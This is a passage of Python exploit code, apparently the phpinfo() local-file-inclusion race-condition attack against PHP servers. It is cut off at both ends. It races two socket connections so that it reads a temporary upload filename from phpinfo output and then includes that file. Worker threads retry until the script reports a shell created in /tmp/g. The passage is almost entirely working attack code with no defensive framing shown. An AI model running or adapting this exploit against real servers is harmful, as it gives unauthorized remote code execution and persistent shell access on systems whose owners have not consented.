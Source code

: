 ```python
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)

def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    

    s.connect((host, port))
    s2.connect((host, port))

    s.send(phpinforeq)
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =&gt; ")
        fn = d[i+17:i+31]
    except ValueError:
        return None

    s2.send(lfireq % (fn, host))
    d = s2.recv(4096)
    s.close()
    s2.close()

    if d.find(tag) != -1:
        return fn

counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock =  l
        self.maxattempts = m
        self.args = args

    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter+=1

            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break                
                if x:
                    print "\nGot it! Shell created in /tmp/g"
                    self.event.set()
                    
            except socket.error:
                return
    

def getOffset(host, port, phpinforeq):
```